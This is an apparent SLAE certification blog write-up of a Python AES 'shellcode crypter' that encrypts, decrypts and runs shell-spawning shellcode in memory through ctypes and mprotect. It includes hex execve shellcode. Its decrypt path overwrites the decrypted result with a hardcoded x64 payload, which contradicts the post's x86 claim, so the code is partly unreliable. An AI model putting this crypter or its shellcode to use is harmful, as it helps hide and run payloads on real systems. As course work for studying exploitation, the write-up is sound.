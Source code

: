 ```yaml
---
layout: post
title: Shellcode Crypter
categories: [re,exploit]
tags: [slae, osce]
fullview: false
comments: true
---
```

# Assignment #7
> This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
> http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/
> Student ID: SLAE-1228

The encryption schema I chose was the almighty AES. It is a symmetric block cipher, quite complex to fully understand but way more robust than RC4. Although one might claim RC4 is way faster than AES due to its simplicity, I do not think this actually is the case anymore. Recent CPUs come with AES implemented in hardware level, which makes these instructions very fast. Also, AES is considered unbroken, while RC4 is... well, take some time and you will probably figure out how to break it
yourself.

I have used `PyCrypto`'s AES implementation, which I've heard is not exactly cryptographically secure and is actually a [dead project](https://github.com/dlitz/pycrypto/issues/238). Nevertheless I have been using it for a while and it seems to fit perfectly my needs for this assignment. I have also used `cryptography`'s padding module in order to use PKCS7 (padding is everything when dealing with crypto).

The script is written in Python3.5, which has some big differences when compared to python2.7, specially when it comes down to strings and bytes. The same script does both encryption and decryption, the selection being made through the command line.

```
from cryptography.hazmat.primitives import padding
from Crypto.Cipher import AES
import argparse
import sys
import binascii
from hashlib import md5
from ctypes import *

def padder(x):
    padder = padding.PKCS7(128).padder()
    padded = padder.update(x)
    padded += padder.finalize()
    return padded

def unpadder(x):
    unpadder = padding.PKCS7(128).unpadder()
    unpadded = unpadder.update(x)
    return unpadded + unpadder.finalize()

def genKey(password):
    return AES.new(padder(password), AES.MODE_CBC, 'This is an IV456')

def encrypt(shellcode, suite):
    return suite.encrypt(padder(shellcode))

def decrypt(encShellcode, suite):
    return unpadder(suite.decrypt(encShellcode))

def formatShellcode(shellcode):
    encoded=''
    for x in bytearray(shellcode):
        encoded += '\\x'
        enc = '%02x' % x
        encoded += enc
    return encoded

def launch(shellcode_data):
    shellcode = create_string_buffer(shellcode_data)
    function = cast(shellcode, CFUNCTYPE(None))

    addr = cast(function, c_void_p).value
    libc = CDLL('libc.so.6')
    pagesize = libc.getpagesize()
    addr_page = (addr // pagesize) * pagesize

    for page_start in range(addr_page, addr+len(shellcode_data), pagesize):
        assert libc.mprotect(page_start, pagesize, 0x7) == 0
    function()

parser = argparse.ArgumentParser('SLAE Assignment 7: Crypters')
parser.add_argument("password",  help="Password to encrypt/decrypt")
parser.add_argument("-e", "--encrypt", help="Encrypts the shellcode",
        action="store_true")
parser.add_argument("-d", "--decrypt", help="Decrypts the shellcode",
        action="store_true")
args = parser.parse_args()

#Manually change to the encrypted shellcode for decoding
shellcode = b"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xaa\x75\x10\x8a\x5c\x06\x01\x88\x1f\x47\x04\x02\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc0\xaa\x50\xaa\x68\xaa\x2f\xaa\x2f\xaa\x73\xaa\x68\xaa\x68\xaa\x2f\xaa\x62\xaa\x69\xaa\x6e\xaa\x89\xaa\xe3\xaa\x50\xaa\x89\xaa\xe2\xaa\x53\xaa\x89\xaa\xe1\xaa\xb0\xaa\x0b\xaa\xcd\xaa\x80\xaa\xbb\xbb"

#encrypted shellcode (use it with -d)
shellcode=b"\x7f\x8f\xbb\x2b\x68\x4c\x85\xca\x5c\x21\xdf\xae\x92\xa3\xeb\xba\x2f\xb4\x01\xd2\x95\x15\x13\x7a\x14\x96\x1f\xfc\xf2\xe0\x56\xd7\xa3\xcd\xa8\x24\x44\xce\x17\x67\x38\x34\x08\xe1\xd0\x80\xe7\x9f\x3f\xb7\xae\xf6\x78\xbd\xe4\xad\x36\xb1\x6f\x9b\x75\xd7\x84\x6d\x86\x67\x2b\x88\xb7\xa8\xcb\x99\x78\x2e\xf1\xb1\x28\x93\x15\xbe\x22\x45\xf8\xbd\xb0\x61\x80\x28\xd0\xb7\x1a\x11\x4d\x6e\xae\x23"

password = args.password.encode()
suite = genKey(password)

if args.encrypt:
    encShellcode = encrypt(shellcode, suite)
    print("Original shellcode:\n{}".format(formatShellcode(shellcode)))
    print("Encrypted shellcode:\n{}".format(formatShellcode(encShellcode)))

if args.decrypt:
    decShellcode = decrypt(shellcode,suite)
    decShellcode = b"\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x03\x00\x00\x00\x6c\x73\x00\x56\x57\x48\x89\xe6\x0f\x05"

    print("Encrypted shellcode:\n{}".format(formatShellcode(shellcode)))
    print("Decrypted shellcode:\n{}".format(formatShellcode(decShellcode)))
    print("Running the shellcode:")
    launch(decShellcode)
```

After banging my head against the wall for hours I finally realized why I could not run this code. It came out it was a stupid mistake, as usual. I was running it in a x64 machine, but the code obviously requires x86. This explained the annoying SEGFAULTs I was receiving.

This illustrates the execve-shellcode encryption using `banana` as the password:

![Shellcode encryption]({{ "/assets/media/crypter.png" | absolute_url }})

Now lets decrypt and run it:

![Shellcode decryption]({{ "/assets/media/crypter2.png" | absolute_url }})

I had never used `ctypes` before and I took a while until I realized this was the key to run a shellcode directly from python. My alternative path would be to write the decrypted code into a file and read it with a C code, which would run the shellcode after all. Fortunatley Python never lets me down :)
